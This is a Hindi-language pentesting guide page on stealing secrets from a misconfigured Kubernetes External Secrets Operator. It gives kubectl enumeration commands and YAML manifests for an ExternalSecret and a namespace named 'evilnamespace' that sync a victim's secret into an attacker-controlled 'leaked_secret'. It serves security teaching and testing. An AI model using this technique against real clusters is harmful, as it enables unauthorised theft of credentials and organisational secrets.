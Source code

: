 # External Secret Operator

**इस पृष्ठ के मूल लेखक हैं** [**Fares**](https://www.linkedin.com/in/fares-siala/)

यह पृष्ठ कुछ संकेत देता है कि आप कैसे एक गलत कॉन्फ़िगर किए गए ESO या एप्लिकेशन से रहस्यों को चुरा सकते हैं जो अपने रहस्यों को समन्वयित करने के लिए ESO का उपयोग करता है।

## अस्वीकरण

नीचे दिखाए गए तकनीक केवल तभी काम कर सकती है जब कुछ परिस्थितियाँ पूरी हों। उदाहरण के लिए, यह इस पर निर्भर करता है कि एक रहस्य को उस नामस्थान पर समन्वयित करने की अनुमति देने के लिए आवश्यकताएँ क्या हैं जो आप स्वामित्व में रखते हैं / समझौता कर चुके हैं। आपको इसे स्वयं पता करना होगा।

## पूर्वापेक्षाएँ

1. एक kubernetes / openshift क्लस्टर में एक पैर जमाना जिसमें एक नामस्थान पर प्रशासनिक विशेषाधिकार हो
2. क्लस्टर स्तर पर कम से कम ExternalSecret पर पढ़ने की पहुंच
3. यह पता करें कि क्या कोई आवश्यक लेबल / एनोटेशन या समूह सदस्यता की आवश्यकता है जो ESO को आपके रहस्य को समन्वयित करने की अनुमति देती है। यदि आप भाग्यशाली हैं, तो आप किसी भी परिभाषित रहस्य को स्वतंत्र रूप से चुरा सकते हैं।

### मौजूदा ClusterSecretStore के बारे में जानकारी इकट्ठा करना

मान लेते हैं कि आपके पास एक उपयोगकर्ता है जिसके पास इस संसाधन को पढ़ने के लिए पर्याप्त अधिकार हैं; पहले मौजूदा _**ClusterSecretStores**_ की सूची बनाकर शुरू करें।
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

मान लीजिए कि आपने _**mystore**_ नाम का ClusterSecretStore पाया है। इसके संबंधित externalsecret की गणना जारी रखें।
```sh
kubectl get externalsecret -A | grep mystore
```
_यह संसाधन नामस्थान स्कोप किया गया है इसलिए जब तक आप पहले से नहीं जानते कि किस नामस्थान में देखना है, सभी नामस्थानों में देखने के लिए -A विकल्प जोड़ें।_

आपको परिभाषित externalsecret की एक सूची मिलनी चाहिए। मान लीजिए कि आपने _**mysecret**_ नाम का एक externalsecret ऑब्जेक्ट पाया है जो नामस्थान _**mynamespace**_ द्वारा परिभाषित और उपयोग किया गया है। यह जानने के लिए थोड़ी और जानकारी इकट्ठा करें कि यह किस प्रकार का रहस्य रखता है।
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assembling the pieces

यहाँ से आप एक या एक से अधिक गुप्त नाम (जैसे कि Secret संसाधन में परिभाषित) प्राप्त कर सकते हैं। आपको एक आउटपुट मिलेगा जो इस प्रकार होगा:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
अब तक हमारे पास है:

- एक ClusterSecretStore का नाम
- एक ExternalSecret का नाम
- सीक्रेट का नाम

अब जब हमारे पास सब कुछ है, आप एक ExternalSecret बना सकते हैं (और अंततः आवश्यकताओं के अनुसार एक नया Namespace पैच/बनाने के लिए अपने नए सीक्रेट को सिंक करने के लिए):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
कुछ मिनटों के बाद, यदि समन्वय की शर्तें पूरी हो गईं, तो आप अपने नामस्थान के अंदर लीक किया गया रहस्य देख सकेंगे।
```sh
kubectl get secret leaked_secret -o yaml
```
## संदर्भ

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
